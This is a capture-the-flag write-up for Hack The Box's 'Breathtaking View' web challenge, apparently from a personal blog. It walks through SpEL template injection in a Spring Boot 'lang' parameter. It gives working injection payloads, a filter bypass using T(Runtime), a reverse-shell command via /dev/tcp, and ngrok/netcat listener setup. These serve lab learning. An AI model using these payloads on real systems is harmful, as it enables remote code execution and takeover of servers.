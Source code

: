 ```yaml
---
title: Breathtaking View - Hack The Box
date: 2024-10-27
head:
    -   - meta
        -   name: og:image
            content: /ctf/hack-the-box/challenges/web/breathtaking-view/thumbnail.jpg
    -   - meta
        -   name: og:description
            content: Check out my new website showcasing a breathtaking view—let's hope no one can 'manipulate' it!
    -   - meta
        -   name: og:title
            content: Breathtaking View - Hack The Box
    -   - meta
        -   name: og:url
            content: /ctf/hack-the-box/challenges/web/breathtaking-view
---
```


# Breathtaking View

![Breathtaking View - thumbnail](/ctf/hack-the-box/challenges/web/breathtaking-view/thumbnail.jpg)

## Box description

Check out my new website showcasing a breathtaking view—let's hope no one can 'manipulate' it!

## Challenge Description

This challenge is a web application written in **Spring Boot**. It provides a simple interface with registration and
login functionality. Once logged in, we are presented with the following page:

![View 1](/ctf/hack-the-box/challenges/web/breathtaking-view/view1.png)

Clicking the "Change Language" button redirects to another page:

![View 2](/ctf/hack-the-box/challenges/web/breathtaking-view/view2.png)

Looking at the URL, we can see that the language is passed as a parameter:

```
http://localhost:1337/?lang=fr
```

## Code Review

### IndexController.java

```java
@Controller
public class IndexController {
    @GetMapping("/")
    public String index(@RequestParam(defaultValue = "en") String lang, HttpSession session, RedirectAttributes redirectAttributes) {
        if (session.getAttribute("user") == null) {
            return "redirect:/login";
        }

        if (lang.toLowerCase().contains("java")) {
            redirectAttributes.addFlashAttribute("errorMessage", "But.... For what?");
            return "redirect:/";
        }

        return lang + "/index";
    }
}
```

Upon reviewing the `IndexController.java` code:

- The `index` method handles the rendering of the main page and takes in a `lang` parameter, which defaults to `"en"`.
- If the `user` session attribute is missing, the method redirects to the login page.
- If the `lang` parameter contains the string `"java"`, the method sets an error message and redirects to the index page.
- Otherwise, it returns a path based on `lang` by appending `"/index"` to it.

The concatenation of `lang` with `"/index"` could allow us to inject code into the `lang` parameter, leading to a **Server-Side Template Injection (SSTI)**
vulnerability.

## Exploitation - Server-Side Template Injection (SSTI)

### Proof of Concept (PoC)

To confirm SSTI vulnerability, we inject a simple expression into the `lang` parameter:

```plaintext
__${7*7}__::.x
```

Using this payload (sourced
from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)),
we receive the following response:

```plaintext
Error resolving template [49], template might not exist or might not be accessible by any of the configured Template Resolvers
```

The payload `7*7` evaluated to `49`, confirming that SSTI is possible. We can now proceed to exploit this vulnerability.

### Exploit Strategy

Our goal is to inject Java code into the `lang` parameter to execute system commands on the server. However, since any
input containing the string `"java"` triggers a redirection, we need a workaround.

#### Using the T() Class

In Java, the `java.lang` package is imported by default. By leveraging the `T` operator from **Spring Expression
Language (SpEL)**, we can call methods like `Runtime.getRuntime()` without specifying `java.lang`.

### Payload

We start with a payload to list files in the current directory:

```java
__${T(Runtime).getRuntime().exec("ls")}__::.x
```

#### Response

```
Error resolving template [java.lang.UNIXProcess@590062a7], template might not exist or might not be accessible by any of the configured Template Resolvers
```

The response shows `java.lang.UNIXProcess@590062a7`, indicating that the `exec()` command executed successfully.
However, we don’t see the output of the `ls` command directly because `exec()` returns a `Process` object, not a string.

To capture command output, we need to redirect it to a more accessible place, such as a reverse shell.

### Establishing a Reverse Shell

To create a reverse shell, we start by setting up a listener on our machine and then use the following payload to create
a shell script on the server:

```java
__${T(Runtime).getRuntime().exec(new String[]{"bash", "-c", "echo 'bash -i >& /dev/tcp/ip/port 0>&1' > shell.sh"})}__::.x
```

Looking at the docker container file, we can see the `shell.sh` file created

### Executing the Shell Script

To run the shell script and establish the reverse shell, we use the following payload:

```java
__${T(Runtime).getRuntime().exec(new String[]{"bash", "-c", "bash shell.sh"})}__::.x
```

Upon execution, we successfully gain a reverse shell and can interact with the server.

With the reverse shell active, we proceed to list files in the root directory:

```bash
root@9348cae2ee45 /# ls
app
bin
boot
dev
etc
flag_lyh3sdrgCjCI_.txt
home
...
```

Reading the flag file:

```bash
root@9348cae2ee45 /# cat flag_lyh3sdrgCjCI_.txt
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We now have the fake flag!

::: danger **Note for HTB Server**
Direct netcat connections to HTB IPs may not work. Use **ngrok** or similar tunneling tools to create a TCP tunnel to
your machine and connect with netcat.

```bash
ngrok tcp 12345
nc -lnv 12345
```

:::

![Breathtaking View - pwned](/ctf/hack-the-box/challenges/web/breathtaking-view/pwned.png)

## References

- [HackTricks - SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)
